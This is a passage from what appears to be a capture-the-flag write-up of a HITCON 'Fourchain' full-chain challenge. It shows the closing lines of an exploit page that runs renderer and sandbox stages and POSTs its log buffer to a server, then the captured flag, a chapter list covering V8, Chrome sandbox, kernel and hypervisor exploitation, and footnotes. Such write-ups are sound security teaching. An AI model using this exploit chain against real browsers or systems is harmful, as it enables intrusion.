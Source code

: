 ```html
  print('hello world');

  try {
    if (typeof(Mojo) === 'undefined') {
      await renderer();
    } else {
      print(`Got Mojo!: ${Mojo}`);
      await sbx();
    }
  } catch (e) {
    print(`[-] Exception caught: ${e}`);
    print(e.stack);
  }

  fetch(`${server_url}/logs`,{
    method: 'POST',
    body: printbuf.join('\n'),
  });
}

pwn();

</script>
</head>
</html>
```

`hitcon{G00dbY3_1_4_O_h3LL0_Pwn_2_Own_BTW_vB0x_Y_U_N0_SM3P_SM4P_??!!}`

## Table of Contents

- [Prologue](./fourchain-prologue): Introduction
- [Chapter 1: Hole](./fourchain-hole): Using the "hole" to pwn the V8 heap and some delicious Swiss cheese.
- [Chapter 2: Sandbox](./fourchain-sandbox): Pwning the Chrome Sandbox using `Sandbox`.
- [Chapter 3: Kernel](./fourchain-kernel): Chaining the Cross-Cache Cred Change
- [Chapter 4: Hypervisor](./fourchain-hv): Lord of the MMIO: A Journey to IEM
- **[Chapter 5: One for All](./fourchain-fullchain) (You are here)**
- [Epilogue](./fourchain-epilogue): Closing thoughts

[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.
[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.